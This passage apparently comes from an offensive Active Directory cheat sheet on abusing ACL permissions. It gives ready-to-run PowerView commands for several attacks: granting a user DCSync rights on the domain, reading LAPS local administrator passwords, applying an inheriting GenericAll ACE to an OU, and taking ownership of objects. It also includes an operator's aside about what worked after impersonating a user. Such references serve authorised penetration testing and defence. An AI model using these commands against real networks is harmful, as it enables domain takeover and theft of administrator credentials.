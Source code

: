 ````
See [Computer object takeover](#Computer-object-Takeover) 

#### Writedacl - Read LAPS password
```
Add-DomainObjectAcl -TargetIdentity <TARGET> -PrincipalIdentity <USER> -Rights All -Verbose
Get-DomainComputer | Where-Object -Property ms-mcs-admpwd | Select-Object samaccountname, ms-mcs-admpwd
```

### Permissions on Domain Object
#### Writedacl - Add permissions for dcsync
- Use ```Remove-ObjectAcl``` to remove the ACL's
```
Add-DomainObjectAcl -TargetIdentity 'DC=<PARENT DOMAIN>,DC=<TOP DOMAIN>' -PrincipalIdentity '<USER>' -Rights DCSync -Verbose

#After impersonating the user with these permissions the above didn't work, but this did:
Add-ObjectAcl -PrincipalIdentity exch_adm -Rights DCSync
```

#### GenericAll - Dcsync
- Execute DC Sync

### Permissions on OU
#### Generic all - Inherit down
- The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. 

#### Fetch guids for all objects
```
$Guids = Get-DomainGUIDMap
$AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name
```

#### Grant user full control of all descendant objects:
```
$ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity '<USER>' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid
```

#### Apply this ACE to our target OU:
```
$OU = Get-DomainOU -Raw <OU NAME>
$DsEntry = $OU.GetDirectoryEntry()
$dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
$dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
$dsEntry.PsBase.CommitChanges()
```

#### If laps is enabled, read password
```
Get-DomainComputer | Where-Object -Property ms-mcs-admpwd | Select-Object samaccountname, ms-mcs-admpwd
```

### Writeowner of an object - Change the owner
- When writeowner
```
Set-DomainObjectOwner -Credential $creds -Identity <OBJECT FQDN OR SID> -OwnerIdentity <NEW OWNER>

Get-DomainObjectAcl -Identity <IDENTITY> -ResolveGUIDs | Where-Object -Property SecurityIdentifier -Match <SID NEW OWNER>
```

### Owner of an object - Add GenericAll
````